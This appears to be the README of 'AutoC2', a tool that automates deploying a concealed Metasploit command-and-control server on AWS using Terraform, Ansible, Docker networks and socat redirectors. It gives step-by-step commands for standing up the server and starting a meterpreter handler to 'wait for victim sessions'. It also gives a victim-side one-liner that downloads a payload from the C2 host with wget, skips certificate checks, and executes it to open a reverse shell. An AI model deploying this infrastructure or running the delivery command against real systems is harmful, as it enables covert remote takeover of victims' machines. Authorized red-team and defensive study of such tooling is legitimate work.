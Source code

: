 
# AutoC2

A quick isolated C2 Deployer.

![AutoC2](/demo_screenshots/AutoC2_1.PNG)


## Overview

AutoC2 makes use of terraform + ansible to deploy and hide a command and control server with isolated docker network within less than 5 mins in a single click!

Brief outline of what the script does :

1. deploys a ec2 micro instance on desired region given by user.

2. setup the C2 server which is not exposed to the internet with the help of isolated docker network which consists of multiple socat redirectors and a metasploit container instance.

3. uses meterpreter_reverse_http as payload and similar payloads such as 
meterpreter_reverse_https and meterpreter_reverse_tcp works as well. (requires modification to docker_delivery.rc file)

This automated script is bulit over technique demonstrated by the author of following blog. All credits for technique/ detailed explanation of how this is built can be found here:

https://khast3x.club/posts/2020-02-09-C2-Protection-Socat-Docker/




## Prerequisites

* terraform must be installed

* ansible(python 3)must be installed.
```bash
pip3 install ansible
```

* your IAM account credentials (Aws access key and secret key) with admin privileges.

* AWS Region to be deployed and image(tested on ubuntu and works on debain) AMI code.

* set environment variable to ignore ssh key trust warnings
```bash
export ANSIBLE_HOST_KEY_CHECKING=False
```

## Getting Started

* Only files we touch for changing configuration is **vars.tf** and **terraform.tfvars**.  

* first generate SSH keys for setting up public key authentication on any launched instances.  
```bash
ssh-keygen -f keyy
```
* inside **vars.tf** , update the path to keys in PRIVATE_KEY , PUBLIC_KEY and other values such as region_aws and AMI value (can be found at cloud-images.ubuntu.com). 

* inside **terraform.tfvars** , update IAM user access key and secret key. 

* run the following command inside this repo project root to initiatize resources. 

```bash
terraform init
```

* Now run the following command to bring up the c2 server . this inturn calls up the ansible playbook to set up the software provisioning and isolated docker network.
```bash
terraform apply
```

* That's it! Infra is set up. Now ssh to the C2 instance using same priv key which was generated before and execute **docker_delivery.rc** metasploit script to start listening for connections.
```bash
SSH -i kkey ubuntu@c2-ip
```

* Verify containers are running.
```bash
sudo docker container ls
```

* Execute metasploit auto handler script inside msf container.
and wait for victim sessions.

```bash
sudo docker container exec -it msf /bin/bash

./msfconsole -r docker_delivery.rc

```
![AutoC2](/demo_screenshots/AutoC2_2.PNG)
![AutoC2](/demo_screenshots/AutoC2_3.PNG)

* By default it generates payload for linux x64 systems.can be modified for different target by modifying **docker_delivery.rc** file

*  By default docker_delivery.rc uses certificate picked up automatically by metasploit.

* On a **victim box**, execute the following to get reverse meterpreter shell on attacker msf container.

```bash
wget --no-check-certificate https://c2IP/delivery
chmod +x delivery
./delivery&
```
![AutoC2](/demo_screenshots/Auto_victim1.PNG)
* Finally to destroy the infrastructure completely(use this with caution!) use the following command :
```bash
terraform destroy
```


